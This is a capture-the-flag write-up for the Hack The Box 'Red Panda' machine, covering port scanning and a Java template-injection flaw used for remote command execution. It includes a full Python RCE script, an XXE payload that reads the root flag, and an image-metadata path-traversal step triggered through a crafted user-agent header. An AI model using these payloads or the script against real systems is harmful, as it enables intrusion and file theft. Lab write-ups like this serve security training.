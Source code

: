 ```yaml
---
title: Red Panda Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Enumeration

we start with an nmap

```ruby
tarting Nmap 7.93 ( https://nmap.org ) at 2022-11-08 15:58 CET
Initiating SYN Stealth Scan at 15:58 CET
Scanning 10.129.24.47 [65535 ports]
Discovered open port 8080/tcp on 10.129.24.47
Discovered open port 22/tcp on 10.129.24.47
Completed SYN Stealth Scan at 15:59, 12.70s elapsed (65535 total ports)
Nmap scan report for 10.129.24.47
Host is up, received user-set (0.054s latency).
Scanned at 2022-11-08 15:58:48 CET for 13s
Not shown: 65336 closed tcp ports (reset), 197 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
8080/tcp open http-proxy syn-ack ttl 63

Read data files from: /usr/bin/.../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.83 seconds
           Raw packets sent: 66191 (2.912MB) | Rcvd: 65362 (2.614MB)
```

So let's inspect the page

# User exploit

As we can see, the page is vulnerable to SSTI, because if we put in

```java
*{7*7}
```

It reports 49, so we know that the SSTI is valid.

Investigating a little, we see that this error is of type JAVA, so we are going to try to put a payload:

If we do for example:
```java
**{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```
reports us 
```java
## You searched for: Process[pid=1819, exitValue=1]
```

But this doesn't give us much information, so let's keep searching.

We can pull up the environment variables:

```java
*{T(java.lang.System).getenv()}
```

and we have as a result

```java
You searched for: {PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, SHELL=/bin/bash, JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64, TERM=unknown, USER=woodenk, LANG=en_US. UTF-8, SUDO_USER=root, SUDO_COMMAND=/usr/bin/java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar, SUDO_GID=0, MAIL=/var/mail/woodenk, LOGNAME=woodenk, SUDO_UID=0, HOME=/home/woodenk}
```

We also have access to etc/passwd:

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character). toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(116)). concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java. lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

As we can see, the above code converts `cat /etc/passwd/` to ASCII, so let's do the same to send us a reverse shell:
However, for unknown reasons it doesn't work, so let's create a script with python to execute commands on the victim machine through the search bar:
```python
#!/usr/bin/python3

import requests,sys,pdb,signal,os,time,os,time

def signal_handler(signal, frame):
    print('You pressed Ctrl+C!')
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)

if len(sys.argv) < 2:
    print("Usage: python3 panda.py <command>")
    sys.exit(1)

def payload():
    command = sys.argv[1]

    payload="*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s))" % ord(command[0])

    command = command[1:]

    for word in command:
        payload += ".concat(T(java.lang.Character).toString(%s))" % ord(word)
    payload = payload + ").getInputStream())}"

    return payload

def MakeRequest(payload):
    url="http://10.129.227.207:8080/search"
    data = {
            'name': payload
            }
    r = requests.post(url, data=data)

    f=open("result.txt", "w")
    f.write(r.text)
    f.close()

    os.system("cat result.txt | awk '/searched/,/<\/h2>//' | sed 's/ <h2 class="searched">You searched for: //' | sed 's/<\/h2>//'")
    os.remove("result.txt")

if __name__ == '__main__':
    payload = payload()

    MakeRequest(payload)
```

Doing 
```python
python3 panda.py "cat /home/woodenk/user.txt"
```

We should now be able to see the user flag. Let's find some way to log in to the machine via SSH and do the privilege escalation:

Doing `python3 panda.py "grep -r woodenk /opt/panda_search/"` we see a password: `RedPandazRule`. So we are going to use it to connect via SSH

## Root Exploit

Using pspy, we see a cronjob which in turn runs the following file: `/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java`.
```java
public static void main(String[] args) throws JDOMException, IOException,
JpegProcessingException {
	File log_fd = new File("/home/woodenk/panda_search/redpanda.log");
	Scanner log_reader = new Scanner(log_fd);
	while(log_reader.hasNextLine())
	{
		String line = log_reader.nextLine();
		if(!isImage(line))
		{
		continue;
		}
		Map parsed_data = parseLog(line);
		System.out.println(parsed_data.get("uri"));
		String artist = getArtist(parsed_data.get("uri").toString());
		System.out.println("Artist: " + artist);
		String xmlPath = "/credits/" + artist + "_creds.xml";
		addViewTo(xmlPath, parsed_data.get("uri").toString());
	}
		//Document doc = saxBuilder.build(fd);
    }
}
```

If we analyze its code, we see that it reads the content of redpanda.log while a while loop iterates it. Then, it checks each line to see if there is any .jpg file. 

If we look at the code of the `parseLog` function:

```java
public static Map parseLog(String line) {
	String[] strings = line.split("split", 4);
	Map map = new HashMap<>();
	map.put("status_code", strings[0]);
	map.put("ip", strings[1]);
	map.put("user_agent", strings[2]);
	map.put("uri", strings[3]);
	return map;
}
```

As you can see, the praseLog function splits the string into four parts: status_code, ip, user_agent and uri using `||`. Finally, the result is stored in the parse_data variable of the previous code. 

Finally, the value of "Artist" is parsed in XML format to finally be sent to the `addViewTo()` function.

Therefore, as the data is sent in XML format, we are going to test an attack of type XXE:

We create an XML entity with an XXE attack inside, which will point directly to the root flag:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE author [<!ENTITY xxe SYSTEM 'file:///root/root.txt'>]>
<credits>
	<author>&xxe;</author>
	<image>
		<uri>/img/greg.jpg</uri>
		<views>0</views>
			</image>
			<image>
			<uri>/img/hungy.jpg</uri>
			<views>0</views>
			</image>
			<image>
			<uri>/img/smooch.jpg</uri>
			<views>1</views>
			</image>
			<image>
			<uri>/img/smiley.jpg</uri>
		<views>1</views>
	</image>
	<totalviews>2</totalviews>
</credits>
```

We upload it to the victim machine, and give it the name we want followed by `_creds.xml`, as it is indicated in the Java code analyzed above.

Finally, we have to make this code run. For it, we are going to modify the value of the variable Author of any image. 

For it, we download it from the page and edit it with efixtool:
```shell
exiftool -Artist='../../../../../../tmp/root' smooch.jpg
```

Once we have it modified, we upload it to the victim machine with ``wget``.

Finally, we have to make a request so that the Logs of the page are updated and the XXE is executed:
```shell
curl -A "whatever||/../../../../../../../../../../../tmp/smooch.jpg" http://IP:8080/
```

And finally we can see the root flag by doing `cat filename_creds.xml`.
